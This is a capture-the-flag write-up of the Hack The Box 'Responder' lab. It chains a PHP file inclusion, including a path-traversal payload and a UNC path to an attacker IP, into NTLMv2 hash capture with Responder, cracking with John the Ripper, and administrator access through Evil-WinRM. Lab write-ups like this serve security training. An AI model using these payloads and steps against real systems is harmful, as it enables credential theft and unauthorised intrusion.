# ⭐ Responder – Hack The Box Write-up ⭐

## Machine Info

| Property       | Value                                           |
| -------------- | ----------------------------------------------- |
| **Difficulty** | Easy                                            |
| **OS**         | Windows                                         |
| **IP**         | 10.129.x.x                                      |
| **Category**   | Starting Point                                  |
| **Tags**       | LFI, RFI, NTLM, Responder, Hash Cracking, WinRM |

## Overview

In this lab, we exploit a Local File Inclusion (LFI) vulnerability to trigger an NTLM authentication request from a Windows server. Using Responder, we capture the NTLMv2 hash of the Administrator account, crack it with John the Ripper, and gain remote access via WinRM to retrieve the flag.

This machine belongs to Hack The Box – Starting Point (Tier 0) and introduces fundamental concepts such as:

Local & Remote File Inclusion (LFI / RFI)

NTLM authentication

Hash capture and cracking

Windows Remote Management (WinRM)

### Key Steps:
**Exploiting Local File Inclusion (LFI)** via unsanitized page parameter

MITRE ATT&CK: T1005 – Data from Local System

OWASP Top 10: A03:2021 – Injection

**Escalating LFI to Remote File Inclusion (RFI)** using UNC paths on a Windows host

MITRE ATT&CK: **T1105 – Ingress Tool Transfer**

OWASP Top 10: **A05:2021 – Security Misconfiguration**

**Capturing NTLMv2 authentication hashes** via forced SMB authentication (Responder)

MITRE ATT&CK: **T1557.001 – Adversary-in-the-Middle (LLMNR/NBT-NS Poisoning)**

OWASP Top 10: **A02:2021 – Cryptographic Failures**

**Cracking captured NTLMv2 hashes** to recover valid credentials

MITRE ATT&CK: **T1110 – Brute Force**

OWASP Top 10: **A07:2021 – Identification and Authentication Failures**

**Remote access via WinRM (Evil-WinRM)** using compromised administrator credentials

MITRE ATT&CK: **T1021.006 – Remote Services: WinRM**

OWASP Top 10: **A07:2021 – Identification and Authentication Failures**

**Post-exploitation enumeration** to locate and retrieve the flag

MITRE ATT&CK: **T1083 – File and Directory Discovery**

OWASP Top 10: **A01:2021 – Broken Access Control**

---

## Connectivity check

Before starting the enumeration phase, we performed a basic connectivity check using ping to verify that the target machine was reachable from our system.

<pre> ping 10.129.x.x </pre> 



The response confirmed successful communication and revealed the following:

**TTL = 127**

**A TTL value close to 128 typically indicates that the target system is running Windows,** as Windows-based operating systems commonly use an initial TTL of 128.

This information helped us infer the target operating system early in the assessment and guided our subsequent enumeration and exploitation approach.

## Enumeration

### Enumeration – Port Scanning ###

Before performing web enumeration, we ran an Nmap scan to identify open ports on the target system.

<pre> nmap -Pn -p 80 10.129.51.166 </pre>

**Nmap Parameters Explanation**

**-Pn**
Disables host discovery and skips the ping check. This is useful when ICMP is blocked and ensures the scan proceeds even if the host does not respond to ping.

**-p 80**
Specifies that only port 80 should be scanned.

**10.129.51.166**
The target machine IP address.

**Scan Result**
80/tcp open  http



This result confirms that port 80 is open and that a web service (HTTP) is running on the target.
Knowing that a web service is available allows us to focus our enumeration on web-based attack vectors.

### Web Enumeration ###

We begin by identifying the technologies used by the target:

<pre> whatweb http://10.129.x.x </pre>

**Key findings:**

**Apache** running on Windows

**PHP** backend

**Redirect to the virtual host unika.htb**



Since the application redirects to `unika.htb`, we need to resolve the domain locally. We open the file hosts

<pre> sudo nano /etc/hosts </pre>

Then, we add the domain to /etc/hosts

<pre>10.129.x.x unika.htb</pre>

Now, we can type unika.htb into the browser and have access to the website



Accessing http://unika.htb reveals a PHP-based website with dynamic page loading.

We can also observe, through the **Wappalyzer** extension, the technologies used by the web application.



## Vulnerability Discovery – LFI & RFI

The application loads content via a page parameter, for example, there's a language selector on the website http://unika.htb.

If you look at the URL, you'll see something like::

<pre> index.php?page=english.html </pre>



This indicates that the backend does something similar to:
<pre> include($_GET['page']); </pre>
This behavior indicates a file inclusion vulnerability.

**Local File Inclusion (LFI)**

Example payload:

<pre>../../../../../../windows/system32/drivers/etc/hosts</pre>

**Remote File Inclusion (RFI)**

Since the server is Windows-based, we can leverage UNC paths:

<pre>//ATTACKER_IP/test</pre>

**This forces the server to authenticate to our machine using NTLM.** Eso es lo que vamos a explotar.

## Exploitation – NTLM Authentication Capture

Before triggering the attack, we need to properly prepare Responder and ensure it is listening for incoming authentication requests.
The goal is to force the target Windows machine to authenticate to our system using NTLM, allowing us to capture the authentication hash.

**Step 1: Preparing Responder**

First, we identify our VPN network interface using the following command:

<pre>ip a</pre>

The VPN interface used by Hack The Box is typically tun0.

Once identified, we start Responder on this interface:

<pre>sudo responder -I tun0</pre> 

At this point, Responder is actively listening for incoming SMB/HTTP authentication requests, waiting for a client to attempt authentication.

We leave Responder running in the background.

 

**Step 2: Forcing NTLM Authentication**

Next, we force the target server to authenticate to our machine.

The web application dynamically includes files using the page parameter. Instead of specifying a local file, we provide a remote resource pointing to our own IP address:

<pre>http://unika.htb/index.php?page=//10.10.14.X/test</pre>

**What Happens Internally**

When this request is processed:

- PHP attempts to include a remote file

- The Windows server tries to access the remote resource

- Windows automatically attempts authentication using NTLM

- Responder intercepts and captures the NTLM authentication attempt

**Step 3: Capturing the NTLM Hash**

If the attack is successful, Responder will display output similar to the following:

[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:32ba78861403f64e:93B51969DF1706B40DE56E79140B01DB:01010000...

  responder-hash-capturado

**From this, we obtain:**

**Username: Administrator**

**Authentication type: NetNTLMv2**

**Credential format: Hashed (not plaintext)**

This confirms that:

- The Windows server attempted to authenticate

- We successfully captured an NTLM authentication hash

- The compromised account is Administrator

**Step 4: Saving the Hash for Cracking**

Finally, we save the captured NetNTLMv2 hash to a file.
This hash will be used in the next phase to recover the plaintext password using John the Ripper.

Copy the hash, open a txt document, paste it and save it.

<pre>nano hash.txt</pre>

## Password Cracking

At this point, we proceed to the Password Cracking section. 

<pre> john -w=/usr/share/wordlists/rockyou.txt hash.txt </pre>

 

Result:
<pre>Administrator:badminton</pre>

## Remote Access (WinRM)

To remotely access the target Windows machine, we make use of a native Windows service identified during enumeration.

An Nmap scan revealed that TCP port 5985 is open, which corresponds to WinRM (Windows Remote Management).

In modern Windows systems, command-line remote access is typically performed using WinRM, which can be considered the Windows equivalent of SSH on Linux systems.

Then, now that we have the valid credentials, we can gain access the machine remotely.

<pre>evil-winrm -i 10.129.x.x -u Administrator -p badminton</pre>

- `i` → IP address of the victim machine
- `u` → user
- `p` → password

This provides a PowerShell session with administrator privileges.
 

## Post-Exploitation & Flag

Now that we gain access, we'll look for the directory containing the flag.txt file.
Note that we've gained access as an Administrator user; after exploring we find out that the file is located under the user "mike".

 

✅ Flag successfully retrieved

 

## Conclusion

This machine demonstrates how a simple LFI vulnerability can escalate into full system compromise when combined with:

NTLM authentication abuse

Weak credentials

Exposed Windows services

## Key Lessons

Never include files dynamically without validation

Avoid NTLM where possible

Use strong passwords

Apply secure coding practices (allowlists, sanitization)

## Key Takeaways

Improper file inclusion handling can lead to LFI/RFI vulnerabilities

Windows systems may automatically authenticate using NTLM, which can be abused

Responder is a powerful tool for capturing NTLM authentication hashes

Captured NetNTLMv2 hashes can often be cracked if weak passwords are used

WinRM provides full remote command execution once valid credentials are obtained

## Tools Used

| Category | Tools |
|----------|-------|
| **Reconnaissance** | ping, nmap, whatweb, Browser |
|**Enumeration** | nmap, Manual Web Enumeration |
| **Exploitation** | Responder, Local/Remote File Inclusion (LFI/RFI)|
| **Credential Access** | Responder, John the Ripper|
| **Remote Access** | Evil-WinRM|
| **Post-Exploitation** | PowerShell (dir, type, filesystem enumeration) |

## ⚠️ Disclaimer

This writeup is for educational purposes only.

The techniques described here were performed in a controlled laboratory environment provided by Hack The Box.

Do not attempt to use these methods on systems you do not own or have explicit permission to test.

This writeup complies with the Hack The Box Terms of Service and documents only Starting Point / retired content.

